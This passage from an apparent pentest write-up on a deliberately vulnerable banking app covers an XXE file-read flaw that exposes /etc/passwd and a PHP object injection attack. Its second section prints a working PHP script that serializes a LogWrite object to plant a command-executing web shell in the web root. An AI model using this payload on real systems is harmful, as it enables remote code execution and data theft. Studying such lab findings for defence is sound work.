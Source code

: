 This exploit is significant because it allows reading arbitrary files on the server, potentially exposing sensitive information such as configuration files, credentials, or other data critical to the system’s security.

A possible explanation is when the backend received the XML payload with the external entity, it parsed the XML using a DOM parser configured to load external entities (`LIBXML_NOENT | LIBXML_DTDLOAD`). This caused the parser to resolve the `xxe` entity by reading the contents of the specified file (`/etc/passwd`) from the server’s filesystem and substitute it directly into the XML structure. Because the application then included this expanded XML content in its response without sanitization, the sensitive file contents were leaked, making the XXE attack successful.

**Vulnerability Score:**  
This is a **High severity issue (CVSS ~7.5)** since it allows an attacker to read arbitrary files on the server, potentially exposing sensitive data.

**Remedy:**  
Disable external entity processing in the XML parser. Validate and sanitize all XML inputs. Use less vulnerable data formats like JSON when possible, and apply strict input validation to prevent malicious XML payloads.

---
### 7. Web Shell

After spending hours exploring different parts of the application and trying various techniques, I eventually made a breakthrough on the loan application API. While analyzing the requests made when applying for a loan, I noticed that one of the fields—`type`—contained a Base64-encoded string. Curious, I decoded it and found that it was a serialized PHP object, specifically of the class `LogWrite`. This object held two properties: `logfile` and `logdata`.

![](/Screenshots/unsafebank//pent/carloan.png)

This immediately stood out as a potential entry point for PHP Object Injection (POI). Even without seeing the backend code, the presence of a serialized object being passed directly in a user-supplied field is a major red flag. It suggested that the backend might be blindly unserializing the input, which can be incredibly dangerous—especially if the class includes a magic method like `__destruct()` that gets automatically executed when the object goes out of scope.

From the name `LogWrite`, I guessed that this class might be responsible for logging activity, and perhaps writes the `logdata` property to a file. If this guess was correct, and the class lets us control both the file name (`logfile`) and its contents (`logdata`), then in theory we could write arbitrary PHP code to a file somewhere in the web root—effectively planting a web shell.

To test this, I crafted a serialized payload locally using PHP, embedding a classic web shell into the `logdata` and setting `logfile` to something like `../../../shell.php` in hopes of reaching the web root. Here's the script I used:

```php
<?php
class LogWrite
{
    public $logfile = null;
    public $logdata = null;

    public function __construct($logfile, $logdata)
    {
        if ($logfile !== "") {
            $this->logfile = $logfile;
        }
        $this->logdata = $logdata;
    }
}

$object = new LogWrite("../../../shell.php", "<?php system(\$_GET['cmd']); ?>");
$serialized = serialize($object);
$base64 = base64_encode($serialized);

echo $base64 . "\n";
```